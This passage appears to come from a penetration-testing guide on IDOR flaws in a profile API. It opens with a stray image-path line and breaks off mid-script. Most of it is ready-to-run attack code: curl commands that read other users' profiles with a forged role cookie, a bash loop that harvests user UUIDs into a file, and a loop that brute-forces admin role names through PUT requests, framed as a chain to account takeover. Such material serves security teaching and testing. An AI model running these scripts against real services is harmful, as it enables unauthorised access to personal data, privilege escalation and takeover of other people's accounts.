 **Response:** `Invalid role` - Unknown role name

### Information Disclosure for API Exploitation

#### GET Request IDOR Testing
**Enumerate user details via GET:**
```bash
# Test API information disclosure
curl -H "Cookie: role=employee" \
     "http://target.com/profile/api.php/profile/1"

# Test other users
curl -H "Cookie: role=employee" \
     "http://target.com/profile/api.php/profile/2"

curl -H "Cookie: role=employee" \
     "http://target.com/profile/api.php/profile/5"
```

#### Exploitation Chain Strategy
**Multi-step IDOR Attack:**
1. **Information Disclosure** - GET other users' `uuid` values
2. **Function Call Exploitation** - Use discovered `uuid` to modify their data
3. **Privilege Escalation** - Discover valid admin role names
4. **Account Takeover** - Complete compromise

### Advanced API IDOR Techniques

#### Method 1: Batch User Enumeration
```bash
#!/bin/bash
# Enumerate all users and extract UUIDs

for i in {1..50}; do
    response=$(curl -s -H "Cookie: role=employee" \
                    "http://target.com/profile/api.php/profile/$i")
    
    if [[ $response != *"error"* ]]; then
        echo "User $i found:"
        echo $response | jq .
        
        # Extract UUID for later exploitation
        uuid=$(echo $response | jq -r '.uuid')
        echo "UID: $i, UUID: $uuid" >> user_database.txt
    fi
done
```

#### Method 2: Role Enumeration
```bash
# Common role names to test
roles=("admin" "administrator" "manager" "supervisor" "hr" "finance" "root")

for role in "${roles[@]}"; do
    echo "Testing role: $role"
    
    response=$(curl -s -X PUT \
                    -H "Content-Type: application/json" \
                    -H "Cookie: role=employee" \
                    -d "{\"uid\":1,\"uuid\":\"your-uuid\",\"role\":\"$role\"}" \
                    "http://target.com/profile/api.php/profile/1")
    
    if [[ $response != *"Invalid role"* ]]; then
        echo "Valid role found: $role"
```
